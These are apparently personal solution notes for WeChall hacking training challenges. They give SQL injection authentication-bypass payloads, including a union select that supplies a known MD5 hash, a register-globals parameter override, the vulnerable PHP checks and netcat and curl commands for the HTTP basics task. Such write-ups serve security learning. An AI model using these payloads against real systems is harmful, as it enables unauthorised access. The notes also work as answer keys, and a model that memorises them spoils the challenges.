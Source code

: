 ```
username=admin'or'1'='1
username=admin' --
```


### Training: MySQL II (MySQL, Exploit, Training)
```php
    $query = "SELECT * FROM users WHERE username='$username'";
    if (false === ($result = $db->queryFirst($query))) {
		return false;
	}
	### This is the new check ###
	if ($result['password'] !== $password) {
		return false;
	} #  End of the new code  ###
```

md5(NULL) = d41d8cd98f00b204e9800998ecf8427e

```
username=1' union select 1,'admin','d41d8cd98f00b204e9800998ecf8427e&password=
```


### Training: WWW-Basics (HTTP, Training)
Server:
python: BaseHTTPServer

```nc
while true; do (echo -e 'HTTP/1.1 200 OK\r\n'; echo -e "My name is Ranger and iChall.\c") | nc -l localhost 6666; done
```

Client:
python: requests
```curl
curl -b cookie.file -c cookie.file -X POST -d "username=Ranger" -d "password=********" -d "login=Login" https://www.wechall.net/login

curl -b cookie.file -c cookie.file -X POST -d "port=80&go=" https://www.wechall.net/challenge/training/www/basic/index.php
```

### Training: Register Globals (Exploit, PHP, Training)
```html
if (isset($login))
{
    ...
    if (strtolower($login[0]) === 'admin') {
```

```
...&login[0]=admin
```

